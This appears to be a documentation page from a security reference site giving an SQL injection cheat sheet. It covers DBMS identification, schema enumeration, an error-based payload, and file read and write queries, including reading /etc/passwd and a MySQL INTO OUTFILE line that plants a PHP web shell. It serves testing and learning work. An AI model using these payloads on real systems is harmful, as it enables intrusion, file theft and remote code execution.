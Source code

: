 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL          | SQLite              | MySQL               |
| ------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`        | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`          | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`           | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`        | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`       | *Unknown*           | `SLEEP(4)`          |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3`

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
